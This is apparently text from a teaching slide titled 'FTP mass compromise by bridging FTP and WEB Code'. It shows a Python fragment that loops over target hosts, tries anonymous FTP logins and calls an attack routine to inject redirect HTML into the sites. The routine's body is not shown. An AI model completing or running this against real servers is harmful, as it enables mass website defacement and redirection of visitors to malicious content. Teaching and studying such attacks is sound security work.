

# FTP mass compromise by bridging FTP and WEB Code
args = parser.parse_args()
    tgt_hosts = str(args.tgt_hosts).split(',')
    redirect_html = args.r
    pass_file = args.f
    for tgt_host in tgt_hosts:
        user, passwd = None, None
        if anon_login(tgt_host):
            user = 'anonymous'
            passwd = 'me@your.com'
            print('[+] Using Anonymous Creds to attack')
            attack(user, passwd, tgt_host, redirect_html)